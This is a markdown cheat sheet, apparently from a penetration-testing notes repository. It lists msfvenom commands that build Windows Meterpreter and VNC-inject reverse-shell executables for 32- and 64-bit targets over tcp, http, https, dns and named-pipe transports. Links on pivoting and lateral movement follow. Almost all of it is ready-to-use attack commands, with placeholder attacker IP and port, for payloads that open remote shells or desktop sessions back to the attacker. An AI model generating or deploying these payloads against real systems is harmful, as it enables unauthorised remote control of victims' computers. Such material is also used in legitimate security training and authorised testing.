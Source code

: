 # Reverse Shells

## Interactive Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe
```

- Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe
```

- Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x64.exe
```

## VNC

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe

$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe
```

---
## References

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)

- [Nagarro Security: SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

- [Peter Gombos: SMB Named Pipe Pivoting in Meterpreter](https://medium.com/@petergombos/smb-named-pipe-pivoting-in-meterpreter-462580fd41c5)
